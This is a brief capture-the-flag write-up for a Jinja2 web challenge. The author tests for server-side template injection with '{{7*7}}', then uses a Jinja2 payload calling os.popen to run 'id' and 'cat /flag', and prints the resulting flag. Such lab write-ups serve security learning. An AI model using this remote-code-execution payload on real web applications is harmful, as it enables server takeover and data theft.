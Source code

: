 # JINJA NINJA
> WTF is a JINJA? Aint it supposed to be NINJA RAHHHHHHHH

Author: anarchistx


## About the Challenge
This challenge gives a website like this

## How to Solve?

hmm... this challenge named JINJA NINJA. i feel like this is a jinja exploit. first, i try with '{{7*7}}' to verify this is clearly jinja exploit.

<img width="1850" height="1006" alt="Screenshot from 2025-09-15 21-07-34" src="https://github.com/user-attachments/assets/aca6839a-e7df-41a9-a303-fca43a993f9c" />

Yup. its execute with output 49. then i search on internet and found this command

```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

from this website https://onsecurity.io/article/server-side-template-injection-with-jinja2/ 
since there said flag hidden at /flag. then, i modify to cat /flag like this

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat /flag').read()}}
```

<img width="1850" height="1006" alt="image" src="https://github.com/user-attachments/assets/16ee7a56-5f36-4946-a0c7-bda8c062621f" />

Boom. we got the flag

## Flag
```
HCS{n0w_y0u_h4v3_l34rn3d_ab0ut_SST1_thr0ugh_th1s_ch4ll3ng3_c0ngratzzzzzz_n1nj4_w4r10r_b913cf89-75cf-4e32-bd28-bc6b278b0daf}
```

## Reference

https://onsecurity.io/article/server-side-template-injection-with-jinja2/
